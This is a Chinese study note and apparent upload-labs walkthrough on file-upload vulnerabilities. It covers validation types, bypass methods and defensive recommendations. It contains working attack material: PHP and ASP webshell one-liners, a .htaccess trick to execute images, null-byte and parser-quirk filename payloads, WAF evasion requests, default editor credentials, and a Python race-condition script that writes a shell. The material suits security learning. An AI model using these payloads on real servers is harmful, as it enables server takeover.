





文件上传漏洞学习笔记+靶场实战
一.什么是文件上传漏洞
文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。这种攻击方式是最为直接和有效的.
关于PHP中$_FILES数组的使用方法
$_FILES\[‘file’][‘name’] 客户端文件名称
$_FILES\[‘file’][‘type’] 文件的MIME类型
$_FILES\[‘file’][‘size’] 文件大小 单位字节
$_FILES\[‘file’][‘tmp_name’] 文件被上传后在服务器端临时文件名，可以在php.ini中指定需要注意的是在文件上传结束后，默认的被储存在临时文件夹中，这时必须把他从临时目录中删除或移动到其他地方，否则，脚本运行完毕后，自动删除临时文件，可以使用copy或者move_uploaded_file两个函数
文件上传中常见的函数错误
这些函数有:empty()、isset()、strpos()、rename()等，如下面的代码:
#!php
if($operateId == 1){
$date = date("Ymd");
$dest = $CONFIG->basePath."data/files/".$date."/";
$COMMON->createDir($dest);
//if (!is_dir($dest)) mkdir($dest, 0777);
$nameExt = strtolower($COMMON->getFileExtName($_FILES['Filedata']['name']));
$allowedType = array('jpg', 'gif', 'bmp', 'png', 'jpeg');
if(!in_array($nameExt, $allowedType)){
$msg = 0;
}
if(empty($msg)){
$filename = getmicrotime().'.'.$nameExt;
$file_url = urlencode($CONFIG->baseUrl.'data/files/'.$date."/".$filename);
$filename = $dest.$filename;
if(empty($_FILES['Filedata']['error'])){
move_uploaded_file($_FILES['Filedata']['tmp_name'],$filename);
}
if (file_exists($filename)){
//$msg = 1;
$msg = $file_url;
@chmod($filename, 0444);
}else{
$msg = 0;
}
}
$outMsg = "fileUrl=".$msg;
$_SESSION["eoutmsg"] = $outMsg;
exit;
}历史经典漏洞再次爆发
条件竞争漏洞,这类历史经典漏洞在逐渐淡出人们视线的时候,再次爆发..
接着看下面这段代码(摘自某VPN系统)
#!php
<?
if($_POST['realfile']){
copy($_POST['realfile'],$_POST['path']);
}
$file = mb_convert_encoding($_POST[file],"GBK","UTF-8");
header("Pragma:");
header("Cache-Control:");
header("Content-type:application/octet-stream");
header("Content-Length:".filesize($_POST[path]));
header("Content-Disposition:attachment;filename=\"$file\"");
readfile($_POST[path]);
if($_POST['realfile']){
unlink($_POST["path"]);
}
?>上述代码的逻辑表面上看起来是这样的(对于攻击者来说)：
利用copy函数，将realfile生成shell.php-→删除掉shell.php
这样初看起来没办法利用，但是仔细一想, 这段代码其实是存在逻辑问题的，所以我们可以利用这个逻辑缺陷达到GetShell的目的。
具体利用方法：
copy成temp.php–>不断访问temp.php->temp.php生成shell.php->删除temp.php
校验方式分类&总结
- 客户端javascript校验（一般只校验后缀名）
- 服务端校验
- 文件头content-type字段校验（image/gif）
- 文件内容头校验（GIF89a）
- 后缀名黑名单校验
- 后缀名白名单校验
- 自定义正则校验
- WAF设备校验（根据不同的WAF产品而定）
校验方式溯源
通常一个文件以HTTP协议进行上传时，将以POST请求发送至Web服务器，Web服务器接收到请求并同意后，用户与Web服务器将建立连接，并传输数据。一般文件上传过程中将会经过如下几个检测步骤：

校验方式&绕过姿势
PUT方法
WebDAV是一种基于 HTTP 1.1协议的通信协议.它扩展了HTTP 1.1，在GET、POST、HEAD等几个HTTP标准方法以外添加了一些新的方法。使应用程序可直接对Web Server直接读写，并支持写文件锁定(Locking)及解锁(Unlock)，还可以支持文件的版本控制。当WebDAV开启PUT，MOVE，COPY，DELETE方法时，攻击者就可以向服务器上传危险脚本文件。
此时可以使用OPTIONS探测服务器支持的http方法，如果支持PUT，就进行上传脚本文件，在通过MOVE或COPY方法改名。当开启DELETE时还可以删除文件。
参考:http://wiki.wooyun.org/server:httpput
客户端校验
JavaScript校验
验证代码
<?php
//文件上传漏洞演示脚本之js验证
$uploaddir = 'uploads/';
if (isset($_POST['submit'])) {
if (file_exists($uploaddir)) {
if (move_uploaded_file($_FILES['upfile']['tmp_name'], $uploaddir . '/' . $_FILES['upfile']['name'])) {
echo '文件上传成功，保存于：' . $uploaddir . $_FILES['upfile']['name'] . "\n";
}
} else {
exit($uploaddir . '文件夹不存在,请手工创建！');
}
//print_r($_FILES);
}
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
<meta http-equiv="content-language" content="zh-CN"/>
<title>文件上传漏洞演示脚本--JS验证实例</title>
<script type="text/javascript">
function checkFile() {
var file = document.getElementsByName('upfile')[0].value;
if (file == null || file == "") {
alert("你还没有选择任何文件，不能上传!");
return false;
}
//定义允许上传的文件类型
var allow_ext = ".jpg|.jpeg|.png|.gif|.bmp|";
//提取上传文件的类型
var ext_name = file.substring(file.lastIndexOf("."));
//alert(ext_name);
//alert(ext_name + "|");
//判断上传文件类型是否允许上传
if (allow_ext.indexOf(ext_name + "|") == -1) {
var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
alert(errMsg);
return false;
}
}
</script>
<body>
<h3>文件上传漏洞演示脚本--JS验证实例</h3>
<form action="" method="post" enctype="multipart/form-data" name="upload" onsubmit="return checkFile()">
<input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
请选择要上传的文件：<input type="file" name="upfile"/>
<input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>客户端JS验证通常做法是验证上传文件的扩展名是否符合验证条件
绕过姿势
1.通过firefox的F12修改js代码绕过验证 2.使用burp抓包直接提交，绕过js验证
服务器端校验
文件头content-type字段校验（服务端MIME类型检测）
MIME类型介绍
MIME type的缩写为(Multipurpose Internet Mail Extensions)代表互联网媒体类型(Internet media type)，MIME使用一个简单的字符串组成，最初是为了标识邮件Email附件的类型，在html文件中可以使用content-type属性表示，描述了文件类型的互联网标准。
Internet中有一个专门组织IANA来确认标准的MIME类型，但Internet发展的太快，很多应用程序等不及IANA来确认他们使用的MIME类型为标准类型。因此他们使用在类别中以x-开头的方法标识这个类别还没有成为标准，例如：x-gzip，x-tar等。事实上这些类型运用的很广泛，已经成为了事实标准。只要客户机和服务器共同承认这个MIME类型，即使它是不标准的类型也没有关系，客户程序就能根据MIME类型，采用具体的处理手段来处理数据。
Response对象通过设置ContentType使客户端浏览器，区分不同种类的数据，并根据不同的MIME调用浏览器内不同的程序嵌入模块来处理相应的数据。
MIME类型格式：
类别/子类别;参数 Content-Type: [type]/[subtype]; parameter
MIME主类别：
text：用于标准化地表示的文本信息，文本消息可以是多种字符集和或者多种格式的；
Multipart：用于连接消息体的多个部分构成一个消息，这些部分可以是不同类型的数据；
Application：用于传输应用程序数据或者二进制数据；
Message：用于包装一个E-mail消息；
Image：用于传输静态图片数据；
Audio：用于传输音频或者音声数据；
Video：用于传输动态影像数据，可以是与音频编辑在一起的视频数据格式。
常见MIME类型：

验证代码
<?php
if($_FILE['userfile']['type'] != "image/gif"){ //检测content-type
echo "sorry,we only allow uploading GIF images";
exit;
}
else
{
echo "Upload success!";
}
?>以上是一个简单的服务器上传验证代码，只要content-type符合image/gif就允许上传
绕过方式
使用Burp截取上传数据包，修改Content-Type的值，改为image/gif即可成功绕过上传webshell
服务端文件扩展名检测
测试代码
<?php
$type = array("php","php3");
//判断上传文件类型
$fileext = fileext($_FILE['file']['name']);
if(!in_array($fileext,$type)){
echo "upload success!";
}
else{
echo "sorry";
}
?>默认上传后的文件保存的名字是已获取到的名字
绕过技巧
配合Apache的.htaccess文件上传解析漏洞
.htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能IIS平台上不存在该文件，该文件默认开启，启用和关闭在httpd.conf文件中配置。
有些服务器在上传认证时没有拦截.htaccess文件上传，就会造成恶意用户利用上传.htaccess文件解析漏洞，来绕过验证进行上传WEBShell，从而达到控制网站服务器的目的。
首先我们编写一个.htaccess文件。打开记事本，编写代码“AddType application/x-httpd-php .jpg”，然后点击文件选中另存为，编写文件名为.htaccess，选择保存类型为所有文件。然后将其进行上传。因为.htaccess是apache服务器中的一个配置文件,不在上传的文件的黑名单之内,所以.htaccess文件是可以上传成功。
接下来我们制造一个一句话木马文件，如取名为yijuhua.php。因为之前上传成功到服务器的.htaccess文件里的代码可以让 .jpg后缀名文件格式的文件名以php格式解析，因此达到了可执行的效果。所以我们把yijuhua.php文件的后缀名改为.jpg格式,让.htaccess文件解析yijuhua.jpg文件里的php代码，从而使木马上传成功并达到可执行的目的。
Apache站上的解析缺陷绕过上传漏洞
Apache的解析漏洞主要特性为Apache是从后面开始检查后缀，按最后一个合法后缀执行，整个漏洞的关键就是Apache的合法后缀到底是哪些，不是合法后缀的都可以被利用，所以将木马的后缀进行修改为允许上传的类型后，即可成功绕过验证，最终拿到权限。
例如新建完要上传的一句话木马文件后命名为yijuhua.php，然后我们在文件后缀处添加上7z，就有可能绕过验证上传成功。也可以修改后缀名为cab、zip、bmp等，只要是允许的上传类型都可能被上传成功。最后通过菜刀类工具访问即可。
IIS6.0站上的目录路径检测解析绕过上传漏洞
当我们使用的服务器都是Windows2003，并且使用的服务为IIS6.0时，就可能存在如本节所描述的漏洞。
以asp为例，先准备好一句话木马文件，然后通过burpsuite进行抓包：

查看数据包：
其中Content-Disposition:form-data;name=”path”下面的一行为服务保存文件的相对路径，我们把原本的 uploadimg/改为uploadimg/1.asp/;，filename="yijuhua.asp"修改为filename="yijuhua.asp/1.jpg"。如图：

本例的知识点在于利用了IIS6.0目录路径检测解析，文件的名字为“yijuhua.asp/1.jpg”，也同样会被IIS当作ASP文件来解析并执行。
首先我们请求/yijuhua.asp/1.jpg，服务器会从头部查找查找”.”号,获得.asp/1.jpg。然后查找”/“,如果有则内存截断，所以/yijuhua.asp/1.jpg会当做/yijuhua.asp进行解析。
上传成功后，通过response我们可以查看到得到的文件名信息为“1.asp;14127900008.asp”，那么就可以在前面添加上uploadimg/，从而构造访问地址为：“http://www.test.com/uploadimg/1.asp;14127900008.asp”，并通过菜刀类的工具进行访问了。
IIS6.0站上的解析缺陷绕过上传漏洞
此类方法与上面讲的目录解析有点类似，不同点在于是利用文件解析来达到绕过上传的目的。
以php为例，同样是准备好一句话木马文件后通过burpsuite进行抓包。
查看数据包：
其中Content-Disposition:form-data;name=”path”下面的一行为服务保存文件的相对路径，我们把原本的 uploadimg/ 改为 uploadimg/1.php; ，filename="yijuhua.php"修改为filename="yijuhua.jpg"。

本例中的知识点在于利用了IIS6.0目录路径检测解析，文件的名字为“1.php;yijuhua.jpg”，也同样会被IIS当作PHP文件来解析并执行
首先我们请求/1.php;yijuhua.jpg，然后服务器会从头部查找查找”.”号,获得.php;yijuhua.jpg。接着查找到”;”，有则内存截断，所以/1.php;yijuhua.jpg会当做/1.php进行解析。
最后类似上一节那样，通过response我们可以查看到得到的文件名信息为“1.php;14127900008.php”，在前面添加上uploadimg/，从而构造访问地址为：“http://www.test.com/uploadimg/1.php;14127900008.php”，并通过菜刀类的工具进行访问。
1.使用大小写绕过（针对对大小写不敏感的系统如windows），如：PhP
2.使用黑名单外的脚本类型，如：php5,asa 和 cer等(IIS默认支持解析.asp,.cdx, .asa,.cer等)
能被解析的文件扩展名列表：
jsp jspx jspf
asp asa cer aspx3.配合操作系统文件命令规则
（1）上传不符合windows文件命名规则的文件名
test.asp.
test.asp(空格)
test.php:1.jpg
test.php:: $DATA会被windows系统自动去掉不符合规则符号后面的内容。
（2）linux下后缀名大小写
在linux下，如果上传php不被解析，可以试试上传pHp后缀的文件名。
(3)借助系统特性突破扩展名验证，如：test.php_(在windows下,下划线是空格，保存文件时下划线被吃掉剩下test.php)
4.双扩展名之间使用00截断，绕过验证上传恶意代码
0x00截断：基于一个组合逻辑漏洞造成的，通常存在于构造上传文件路径的时候
test.php(0x00).jpg
test.php%00.jpg
路径/upload/1.php(0x00)，文件名1.jpg，结合/upload/1.php(0x00)/1.jpg5.超长文件名截断上传(windows 258byte | linux 4096byte)
服务端检测文件内容
配合文件包含漏洞
前提：校验规则只校验当文件后缀名为asp/php/jsp的文件内容是否为木马。
绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）
（1）先上传一个内容为木马的txt后缀文件，因为后缀名的关系没有检验内容；
（2）然后再上传一个.php的文件，内容为
此时，这个php文件就会去引用txt文件的内容，从而绕过校验，下面列举包含的语法：
#PHP
<?php Include("上传的txt文件路径");?>
#ASP
<!--#include file="上传的txt文件路径" -->
#JSP
<jsp:inclde page="上传的txt文件路径"/>
or
<%@include file="上传的txt文件路径"%>详细参考：文件包含漏洞(绕过姿势)
利用PHP特性（使用数组绕过）

file_put_contents 这个函数的第二个参数 可以是数组
然后 如果代码里用正则匹配 bad word 的时候
对一个数组进行正则匹配没用
服务端检测文件头
文件头简介
不同的图片文件都有不同文件头，如：
PNG： 文件头标识 (8 bytes) 89 50 4E 47 0D 0A 1A 0A
JPEG： 文件头标识 (2 bytes): 0xff, 0xd8 (SOI) (JPEG 文件标识)
GIF： 文件头标识 (6 bytes) 47 49 46 38 39(37) 61
PHP使用getimagesize函数验证图片文件头
绕过方式
绕过这个检测只需要在恶意脚本前加上允许上传文件的头标识就可以了
在木马内容基础上再加了一些文件信息，有点像下面的结构
GIF89a
<?php phpinfo(); ?>上传到服务端后验证
竞争上传
演示代码
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
die("error:can not move");
}
}else{
die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success.file path is: ".$newfile."\n<br />";
if($_FILES['file']['error']>0){
unlink($newfile);
die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
unlink($newfile);
die("error:upload the file type is not allowed，delete the file！");
}
?>首先将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉，我们的利用思路是这样的，首先上传一个php文件，内容为：
<?php fputs(fopen("./info.php", "w"), '<?php @eval($_POST["drops"]) ?>'); ?> 当然这个文件会被立马删掉，所以我们使用多线程并发的访问上传的文件，总会有一次在上传文件到删除文件这个时间段内访问到上传的php文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个shell。利用代码如下：
import os
import requests
import threading
class RaceCondition(threading.Thread):
def __init__(self):
threading.Thread.__init__(self)
self.url = "http://127.0.0.1:8080/upload/shell0.php"
self.uploadUrl = "http://127.0.0.1:8080/upload/copy.php"
def _get(self):
print('try to call uploaded file...')
r = requests.get(self.url)
if r.status_code == 200:
print("[*]create file info.php success")
os._exit(0)
def _upload(self):
print("upload file.....")
file = {"file":open("shell0.php","r")}
requests.post(self.uploadUrl, files=file)
def run(self):
while True:
for i in range(5):
self._get()
for i in range(10):
self._upload()
self._get()
if __name__ == "__main__":
threads = 20
for i in range(threads):
t = RaceCondition()
t.start()
for i in range(threads):
t.join()经过几次尝试后成功成功写入shell

针对各种CMS
比如说JCMS等存在的漏洞，可以针对不同CMS存在的上传漏洞进行绕过。
- PHPCMSv9.6.0任意文件上传
针对各种编辑器漏洞
比如FCK，ewebeditor等，可以针对编辑器的漏洞进行绕过。
文本编辑器
常见的文本编辑器有CKEditor、eWebEditor、UEditor、KindEditor、xhEditor等，它们的功能类似且都有图片上传、视频上传、远程下载等功能，这类文本编辑器也称为富文本编辑器。
1 FCKeditor
下面以FCKeditor(现名为CKEditor)为例：
1、敏感信息暴漏
* 查看版本信息
/FCKeditor/editor/dialog/fck_about.html
* 默认上传页面
/FCKeditor/editor/filemanager/browser/default/browser.html
/FCKeditor/editor/filemanager/browser/default/connectors/test.html
/FCKeditor/editor/filemanager/upload/test.html
/FCKeditor/editor/filemanager/connectors/test.html
/FCKeditor/editor/filemanager/connectors/uploadtest.html
* 其他敏感文件
/FCKeditor/editor/filemanager/connectors/aspx/connector.html
/FCKeditor/editor/filemanager/connectors/asp/connector.html
/FCKeditor/editor/filemanager/connectors/php/connector.php
2、黑名单策略错误
FCKeditor<=2.4.3版本采用的是有弊端的黑名单策略，可以采用asa、cer等扩展名
3、任意文件上传漏洞
FCKeditor的2.4.2及以下本本的黑名单配置信息里没有定义类型Media，直接构造html表单就行，
在form中的action="http://22.22.22.22/fckeditor/editor/filemanager/upload/php/upload.php?Type=Media" 即可，然后上传2 eWebEditor
1、默认后台
2.80以前为：ewebeditor/admin_login.asp
2.80以后为：admin/login.asp
2、默认账号密码
admin admin888
3、数据库地址
默认数据库地址
ewebeditor/db/ewebeditor.mdb
常用数据库地址
ewebeditor/db/ewebeditor.asa
ewebeditor/db/ewebeditor.asa
ewebeditor/db/#ewebeditor.asa
ewebeditor/db/#ewebeditor.mdb
ewebeditor/db/!@#ewebeditor.asp
ewebeditor/db/ewebeditor1033.mdb
asp asa为后缀的数据库下载下来后改为mdb针对各种WAF
1 垃圾数据
有些主机WAF软件为了不影响web服务器的性能，会对校验的用户数据设置大小上限，比如1M。此种情况可以构造一个大文件，前面1M的内容为垃圾内容，后面才是真正的木马内容，便可以绕过WAF对文件内容的校验；

当然也可以将垃圾数据放在数据包最开头，这样便可以绕过对文件名的校验。

可以将垃圾数据加上Content-Disposition参数后面，参数内容过长，可能会导致waf检测出错。
2 filename
针对早期版本安全狗，可以多加一个filename

或者将filename换位置，在IIS6.0下如果我们换一种书写方式，把filename放在其他地方：

3 POST/GET
有些WAF的规则是：如果数据包为POST类型，则校验数据包内容。 此种情况可以上传一个POST型的数据包，抓包将POST改为GET。
4 以上方式
针对WAF，以上介绍的服务器解析漏洞、文件包含漏洞等都可以尝试绕过。
**
5 利用waf本身缺陷
删除实体里面的Conten-Type字段

第一种是删除Content整行，第二种是删除C后面的字符。删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php。
正常包：Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
构造包：Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"删除Content-Disposition字段里的空格

增加一个空格导致安全狗被绕过案列： Content-Type: multipart/form-data; boundary=—————————4714631421141173021852555099 尝试在boundary后面加个空格或者其他可被正常处理的字符： boundary= —————————47146314211411730218525550
修改Content-Disposition字段值的大小写

Boundary边界不一致
每次文件上传时的Boundary边界都是一致的：
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099
Content-Length: 253
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream
<%eval request("a")%>
-----------------------------4714631421141173021852555099--但如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段Boundary不一致使得waf认为这段数据是无意义的，可是容器并没有那么严谨： Win2k3 + IIS6.0 + ASP

文件名处回车

多个Content-Disposition
在IIS的环境下，上传文件时如果存在多个Content-Disposition的话，IIS会取第一个Content-Disposition中的值作为接收参数，而如果waf只是取最后一个的话便会被绕过，Win2k8 + IIS7.0 + PHP

利用NTFS ADS特性
ADS是NTFS磁盘格式的一个特性，用于NTFS交换数据流。在上传文件时，如果waf对请求正文的filename匹配不当的话可能会导致绕过。

文件重命名绕过
如果web程序会将filename除了扩展名的那段重命名的话，那么还可以构造更多的点、符号等等。

特殊的长文件名绕过
文件名使用非字母数字，比如中文等最大程度的拉长，不行的话再结合一下其他的特性进行测试：
shell.asp;王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王王.jpg
反删除
将下图file1改成了file4，这样就不会把这个文件删除了。（JCMS漏洞）

总结
条件： 寻找一个上传点，查看上传点是否可用。
利用：
首先判断是程序员自己写的上传点，还是编辑器的上传功能
如果是编辑器上传功能，goolge当前编辑器的漏洞
如果是程序员写的上传点
上传一个正常的jpg图片 查看上传点是否可用
上传一个正常的jpg图片，burp拦截，修改后缀为php (可以检测前端验证 MIME检测 文件内容检测 后缀检测）
上传一个正常的jpg图片，burp拦截， 00截断 1.php%00.jpg
判断服务器是什么类型，web服务器程序，是什么类型，版本号多少
利用解析漏洞防护建议
- 使用白名单限制可以上传的文件扩展（白名单比黑名单可靠多了）
- 验证文件内容，使用正则匹配恶意代码限制上传
- 对上传后的文件统一随机命名，不允许用户控制扩展名
- 修复服务器可能存在的解析漏洞
- 严格限制可以修改服务器配置的文件上传如：.htaccess
- 隐藏上传文件路径。
- 升级Web Server
- 及时修复Web上传代码（重要）
- 不能有本地文件包含漏洞
- 注意0x00截断攻击（PHP更新到最新版本）
- 上传文件的存储目录禁用执行权限
文件上传漏洞的主要利用和绕过方式总结。
1.前端JS绕过
基于本地验证文件是否符合要求：直接将JavaScript禁用。或者burp抓包后修改后缀，将php文件后缀现先改为jpg，burp抓包后后缀改回php。
2.MIME 类型验证
burp抓包将Content-type类型修改为image/jpeg，image/png等
3.黑名单验证
1.寻找没有过滤的类型：phtml php3 php4 php5 PHP phtml
2.大小写绕过：例如Php
4.文件内容验证
1.getimagesize()函数获取图像信息：通过构造图片马进行绕过。
2.文件头绕过：例如 GIF89a
2.检验关键字<?php:利用script标签绕过：<script language="php">eval($_POST['hack']);</script>
6. .htaccess上传
上传的.jpg文件都会以php格式解析
.htaccess内容
AddType application/x-httpd-php .jpg这里代码的意思可以让 .jpg后缀名文件格式的文件名以php格式解析，因此达到了可执行的效果。所以我们可以把要上传的php文件的后缀名改为.jpg格式从而绕过
7.00截断绕过
php. jpg 将空格二进制20改为00；
8.win系统解析漏洞绕过
1.上传1.php(或者图片马)，抓包修改为1.php.
2.上传1.php(或者图片马)，抓包修改为1.php::$DATA
3.上传1.php(或者图片马)，抓包修改为1.php:1.jpg
4.上传1.php(或者图片马)，抓包修改为1.php::$DATA…….
9.文件包含绕过：首先上传图片木马shell.jpg，然后上传可以进行文件包含的php文件,比如上传1.php
$x=$_GET['x'];
include($x);然后我们访问1.php?x=shell.jpg即可。
10.条件竞争绕过
通过BURP不断发包，导致不断写入webshell,再写入速度频率上超过安全软件查杀频率，导致绕过。
11.二次渲染绕过
上传图片加载后，会对图片进行二次渲养，改变大部分图片源码，绕过为：对照上传后的图片与原图片放在winhex中对不，查看图片哪个数据块没有被改变。将木马代码放在没有改变的一块中，在不损坏图片的前提下，即可绕过上传
12.中间件解析漏洞
apache：上传图片马，抓包修改为1.php.xxxx.abc
iis6.0 6.5：上传图片马，抓包修改猴嘴为.asa、.cer和.cdx等。
上传图片马，抓包修改为1.asp;.jpg或者%00 /00也可以
上传图片马，抓包发现有保存图片的路径，如../upload/image
nginx: 上传图片马，拿到图片马的路径，访问的时候加上/.php 就可作为php文件解析,如
upload/image/1.jpg/.php
tomcat:弱口令进入后台，上传war包即可，shell.jsp–>shell.zip–>shell.war
靶场：upload-labs 实战总结
upolad-labs考察知识点汇总：

upload-labs是一个使用php语言编写的，专门收集渗透测试和CTF中遇到的各种上传漏洞的靶场。旨在帮助大家对上传漏洞有一个全面的了解。目前一共20关，每一关都包含着不同上传方式。
Pass-01-前端js检测
考察知识点：前端js检测，我们可以选择禁用js,或者直接burp直接抓包绕过.。

Pass-02 只检测Content-type
考察知识点：Content-Type绕过，我们直接改为 image/jpeg

Pass-03 黑名单绕过
考察知识点：黑名单绕过，禁止上传.asp|.aspx|.php|.jsp后缀文件，但是我们可以上传.php3 .phtml .php5另类后缀名。
Pass-04 .htaccess绕过
考察知识点：构造.htaccess文件，内容为AddType application/x-httpd-php .jpg
我们首先上传.htaccess文件，
然后上传我们事先准备好的php文件将后缀改为.jpg文件,
可以在本地看到成功上传。
Pass-05 大小写绕过
考察知识点：因为此次黑名单过滤了.htaccess，但是没有将文件名转换为小写。所以我们可以通过大小写绕过。
Pass-06 空格绕过
考察知识点：修改文件后缀为1.php空格.,利用.php[空格]绕过黑名单，然后利用windows的文件命名规则默认除去空格,达到上传.php的目的

Pass-07 点绕过
考察知识点：wIndow命名规则:window下 xx.php空格xx.php.不允许存在，系统会默认去除空格或点。此处过滤了空格，但是没有过滤点。我们用burp将文件后缀改为php.即可。
Pass-08 ::$DATA绕过
考察知识点：$DATA绕过：在php+windows的情况下：如果文件名+”::$DATA”会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持”::$DATA”之前的文件名。
所以：文件后缀改为：xx.php::$DATA即可

Pass-09 点空格点绕过
这里我们分析一下源代码：
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
if (file_exists(UPLOAD_PATH)) {
$deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
$file_name = trim($_FILES['upload_file']['name']);
$file_name = deldot($file_name);//删除文件名末尾的点
$file_ext = strrchr($file_name, '.');
$file_ext = strtolower($file_ext); //转换为小写
$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
$file_ext = trim($file_ext); //首尾去空
if (!in_array($file_ext, $deny_ext)) {
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH.'/'.$file_name;
if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
} else {
$msg = '上传出错！';
}
} else {
$msg = '此文件类型不允许上传！';
}
} else {
$msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
}
}这里其实已经过滤的很严格了。
依次进行了严格的黑名单过滤、转换大小写、去除文件名尾的空格和点。还去除了;$DATA.
但是这里存在很明显的代码逻辑漏洞：代码去点，除空的操作只进行了一次。那么我们把后缀名改为
php. . 点 空格点的格式。最后的后缀名为.php. 成功绕过。

Pass-10 双写绕过
考察知识点:双写绕过，这里利用了str_irepalce函数将不符合上传的后缀名替换为空，且该函数对 大小写不敏感，我们可以通过双写后缀名 .pphphp进行绕过。

Pass-11 get 00截断
考察知识点：00截断
Pass-12 Post 00截断
考察知识点：00截断
和十一关不同的是这次的save_path是通过post传进来的，还是利用00截断，但这次需要在二进制中进行修改，因为post不会像get对%00进行自动解码


Pass-13
考察知识点：图片马，结合文件包含


拓展资料
参考资料
- 文件上传漏洞解析及绕过姿势
- http://www.cnblogs.com/stevenwuzheng/p/5354236.html
- https://blog.csdn.net/weiwangchao_/article/details/46686505
- http://www.myh0st.cn/index.php/archives/7/
- http://rdc.hundsun.com/portal/article/627.html
- 文件上传漏洞总结
- 文件上传漏洞（绕过姿势）
- http://wyb0.com/posts/file-upload-editor-upload-vulnerability/